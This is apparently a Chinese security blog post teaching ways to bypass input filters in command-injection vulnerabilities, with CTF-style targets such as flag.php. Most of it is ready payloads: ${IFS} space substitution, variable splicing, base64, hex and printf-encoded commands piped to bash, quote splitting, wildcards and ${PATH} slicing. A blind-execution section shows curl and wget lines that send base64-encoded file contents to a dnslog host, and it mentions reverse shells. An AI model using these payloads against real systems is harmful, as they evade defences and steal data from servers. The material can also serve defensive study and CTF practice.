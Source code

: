 #  命令执行绕过技巧   
 哈拉少安全小队   2024-06-05 19:46  
  
**前言**  
  
前面的一篇文章说了一下SQL注入的绕过技巧，这篇文章再来看看命令执行的绕过技巧。  
  
**空格绕过**  
  
有时，在执行命令时会发现空格被过滤导致无法执行，可以尝试通过下面的方式  
```
> < <> 重定向符
%20(space)
%09(tab)
$IFS$9 
${IFS}（最好用这个）
$IFS  
{cat,flag.txt} 在大括号中逗号可起分隔作用
```  
  
${IFS}：  
这算是Linux中的一个变量。  
Linux下有一个特殊的环境变量叫做IFS，叫做内部字段分隔符（internal field separator）。  
IFS环境变量定义了bash shell用户字段分隔符的一系列字符。  
默认情况下，bash shell会将下面的字符当做字段分隔符：  
空格、制表符、换行符。  
  
花括号的别样用法：在Linux bash中可以使用{OS_COMMAND,ARGUMENT}来执行系统命令，如{mv,文件1，文件2}  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Rzo6rPw2nByPNyGia7ib99phXNGUJVnE6rxNGyPTMpjXdyg8g6Fzx1dJaGGLrvkKpdj6YXNxGQduiclQMJvMT9R0g/640?wx_fmt=png&from=appmsg "")  
  
**黑名单或者正则绕过**  
  
另外一种常见的过滤方式就是设置了黑名单或者正则表达式，可以尝试下面的方式绕过  
  
1）拼接变量  
  
如果定义输入的黑名单，可以通过定义一个变量，然后拼接变量去绕过  
```
#在linux系统中
a=g;cat fla$a.php
a=fl;b=ag.php;cat $a$b

#在php的ping环境中
ip=;a=g;cat fla$a.php
ip=;a=fl;b=ag.php;cat $a$b
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Rzo6rPw2nByPNyGia7ib99phXNGUJVnE6rtrIxsqpIVlMpqC554Wiaib0Dicn63WCSFDibCp4A5e3JziayMI3iacAzTGNQ/640?wx_fmt=png&from=appmsg "")  
  
2）编码绕过  
  
通过对命令进行编码，然后在解码，最后执行。常用的编码方式base64，hex编码，shellcode编码  
```
#1.base64编码：cat flag.php -> Y2F0IGZsYWcucGhw
`echo "Y2F0IGZsYWcucGhw"|base64 -d`
$(echo "Y2F0IGZsYWcucGhw"|base64 -d)
echo "Y2F0IGZsYWcucGhw"|base64 -d|bash
echo "Y2F0IGZsYWcucGhw"|base64 -d|sh

#2.hex编码：cat flag.php -> 63617420666c61672e706870
echo "63617420666c61672e706870"|xxd -r -p|bash
#xxd: 二进制显示和处理文件工具,cat: 以文本方式ASCII显示文件
#-r参数：逆向转换。将16进制字符串表示转为实际的数
#-ps参数：以 postscript的连续16进制转储输出，也叫做纯16进制转储。
#-r -p将纯十六进制转储的反向输出打印为了ASCII格式。

#3.shellcode编码：cat flag.php -> \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70
#经测试，发现在php的ping环境上执行失败。在linux系统上执行成功
$(printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70")
{printf,"\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"}|bash
`{printf,"\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"}`
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Rzo6rPw2nByPNyGia7ib99phXNGUJVnE6rLrTeXCPT7UEEW0zTQfCIhmG2fpjBEtx3uhM8strh1dc5AJ03dXViaGw/640?wx_fmt=png&from=appmsg "")  
  
3)单双引号法  
  
单双引号中并没有字符，相当于在其中没有添加任何字符，命令意思不变  
```
ca''t flag.txt
ca""t flag.txt
```  
  
4）跨行符'\'绕过  
  
跨行符的意思为接着上一行的内容，转到下一行接着输入命令，上下行均是一条命令  
```
cat fl\ag.php
c\at fl\ag.php
```  
  
5）利用shell特殊变量绕过  
  
特殊变量有：  
$1到$9、$@和$*等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Rzo6rPw2nByPNyGia7ib99phXNGUJVnE6rYVdaWJCnV8zwtI5liawRt5esSYicXib8bJ4CA3sUG5OF43EB8WQRyTZEg/640?wx_fmt=png&from=appmsg "")  
```
cat fl$1ag.php
cat fl$@ag.php
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Rzo6rPw2nByPNyGia7ib99phXNGUJVnE6rt3CAKk75CfUFe57J2mpOC2seQyfV5bKJWFpbcm5hNZtudZEqTGvj0A/640?wx_fmt=png&from=appmsg "")  
  
6）通配符绕过  
  
通配符可以替代任何字符  
```
shell通配符有：
* ：表示通配字符0次及以上
? : 表示通配字符0或
```  
```
例如：
/bin/ca?
相当于cat命令

cat *
cat f*
/???/?at flag.php #/bin/cat flag.php
/???/?at ????????
/???/?[a][t] ????????
/???/?[a][t] ?''?''?''?''?''?''?''?''
/???/?[a]''[t] ?''?''?''?''?''?''?''?''
/???/[:lower:]s #ls
```  
  
  
7）内联执行  
  
内联执行就是在一条shell语句中内嵌子shell语句,用主shell语句处理子语句的结果  
  
可用于内联语句的符号有 ${},``（反引号）  
```
echo `ls`
 echo ${ls}
 相当于把ls的结果使用echo输出
```  
  
8）“${}”截取环境变量拼接  
  
"${}"是对变量进行处理的一个函数，它可以对变量值进行取长度，截取，替换等操作。因此我们可以从已知的文件或者内容中提取一部分内容来组成我们想要的内容  
```
${PATH:start:length}  
start：起始位置
length：截取长度，可为负数
```  
```
${PATH:14:1}${PATH:5:1} flag.txt
 
在此环境中相当于 nl flag.txt
```  
  
9）[]中括号匹配绕过  
  
例如[a-c] 代表匹配 a-b之间的字符,包括a,b字符本身  
  
匹配范围为当前目录  
```
/[a-c][h-j][m-o]/[b-d]a[s-u] flag.txt
 
相当于
/bin/cat flag.txt
 
因为[]匹配范围只在当前路径
所以要为bin绝对路径
```  
  
  
**无回显命令执行**  
  
无回显的执行函数：  
```
exec()
shell_exec()

`` （反引号）
```  
  
这些需要php函数echo才可以输出结果，可以通过下面的方式进行利用。  
  
1）反弹shell  
  
能反弹shell当然最好，这个不必多说，也是用的最多的方式。  
  
2）dnslog外带数据法  
  
需要dnslog平台，可自己搭建  
```
curl dnslog平台url/`cat flag.php|base64`
wget dnslog平台url/`cat flag.php|base64`
```  
  
3）复制到可访问文件  
  
tee命令：  
tee 命令可用于创建或追加写入文件  
  
可配合cat等打开文件命令和管道符将执行后的命令写入到规定文件中  
```
先将根目录复制到某个文件，然后访问查看
ls /| tee 1.txt
然后输入 url/1.txt  即可查看根目录
```  
  
  
  
  
  
  
  
  
  
  
  
